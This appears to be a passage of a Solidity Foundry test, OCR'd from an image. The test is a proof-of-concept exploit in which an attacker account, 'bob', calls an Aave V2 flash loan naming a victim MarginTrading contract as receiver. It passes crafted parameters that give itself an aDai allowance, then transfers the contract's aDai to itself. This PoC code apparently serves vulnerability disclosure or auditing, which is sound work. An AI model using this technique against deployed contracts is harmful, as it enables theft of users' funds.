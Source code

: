 ```solidity
            address[] memory _debtTokens = new address[](0);
            address[] memory _swapApproveToken = new address[](1);
            _swapApproveToken[0] = _daiAToken;
            address[] memory _tradeAssets = new address[](0);
            //_tradeAssets[0] = _depositToken;
            executeParams = encodeExecuteParams(
                0, // usualy we need 0,1 or 2 but we put 5 to be sure nothing happens with the flash loan
                address(0),
                bob,
                _swapApproveToken,
                new bytes(1),
                _tradeAssets,
                _withdrawAssets,
                _withdrawAmounts,
                _rateMode,
                _debtTokens
            );
        }
        address[] memory _assets = new address[](1);
        _assets[0] = _weth;
        uint256[] memory _amounts = new uint256[](1);
        _amounts[0] = 1;
        uint256[] memory _modes = new uint256[](1);
        _modes[0] = 2; //stable rate -> 1, variable-rate -> 2
        address _mainToken = _weth;
        //IMarginTrading(_marginTrading).executeFlashLoans(_assets, _amounts, _modes, _mainToken, executeParams);
        doDepositIntoLendingPool();
        console.log("Bob aDai balance before flash after deposit: ", IERC20(_daiAToken).balanceOf(bob));
        ILendingPool(AAVE_LENDING_POOL_V2).flashLoan(_marginTrading, _assets, _amounts, _modes, bob, executeParams, 0);
        console.log("Bob allowance over MarginTrading: ", IERC20(_daiAToken).allowance(_marginTrading, bob));
        IERC20(_daiAToken).transferFrom(_marginTrading, bob, 1e12);
        console.log("Bob aDai balance after flash after deposit: ", IERC20(_daiAToken).balanceOf(bob));

        vm.stopPrank();

    }

    function doDepositIntoLendingPool() public {
        IERC20(_dai).approve(AAVE_LENDING_POOL_V2, type(uint256).max);
        ILendingPool(AAVE_LENDING_POOL_V2).deposit(_dai, 1e4, bob, 0);
    }

    function openMarginTradingDAIV2Fork() public returns(address _marginTrading){
        _marginTrading = marginTradingFactory.createMarginTrading(2, new bytes(0), new bytes(0));
        
        address _depositToken = _dai;
        address _borrowToken = _weth;
        uint256 _depositAmt = 100000 ether;
        uint256 _borrowAmt = 0.00001 ether;

        bytes memory swapParams = getSwapCalldata(_borrowToken, _depositToken, _borrowAmt);
        bytes memory executeParams;

        //组装执行参数
        {
            address[] memory _withdrawAssets = new address[](1);
            uint256[] memory _withdrawAmounts = new uint256[](1);
```